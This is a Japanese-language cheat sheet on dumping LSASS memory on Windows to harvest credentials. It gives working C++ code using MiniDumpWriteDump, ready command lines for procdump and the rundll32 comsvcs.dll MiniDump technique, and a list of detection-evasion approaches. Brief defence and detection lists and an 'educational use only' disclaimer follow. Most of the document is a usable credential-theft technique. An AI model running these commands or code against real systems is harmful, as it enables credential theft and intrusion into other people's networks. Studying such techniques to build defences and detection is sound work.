 # LSASS Memory Dumping Techniques

**対応OS**: Windows

## 概要
Local Security Authority Subsystem Service (LSASS)からクレデンシャルを抽出する手法について解説します。

## 基本的な手法

### MiniDumpWriteDumpの使用
```cpp
#include <windows.h>
#include <dbghelp.h>

BOOL CreateDump(DWORD processId, LPCWSTR dumpPath)
{
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    HANDLE hFile = CreateFile(dumpPath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS,
        FILE_ATTRIBUTE_NORMAL, NULL);
        
    BOOL success = MiniDumpWriteDump(hProcess,
        processId,
        hFile,
        MiniDumpWithFullMemory,
        NULL,
        NULL,
        NULL);
        
    CloseHandle(hFile);
    CloseHandle(hProcess);
    return success;
}
```

### コマンドラインツールの使用
```powershell
# Task Managerを使用
taskmgr.exe > Create Dump File

# ProcDumpの使用
procdump.exe -ma lsass.exe lsass.dmp

# Comsvcsを使用
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass_pid> lsass.dmp full
```

## 検知回避テクニック
- プロセスのクローン作成
- 直接メモリアクセス
- シグネチャの回避
- タイミング制御

## 防御策
- LSASSの保護モード有効化
- メモリダンプの制限
- プロセスアクセスの監視
- EDRソリューションの導入

## 検知方法
- LSASSへのアクセス監視
- 不審なプロセス作成
- ファイル作成の監視
- メモリアクセスパターン

## 注意事項
- このテクニックは教育目的でのみ使用してください
- 実環境での使用は法的責任を伴う可能性があります
- すべてのテストは許可された環境でのみ行ってください 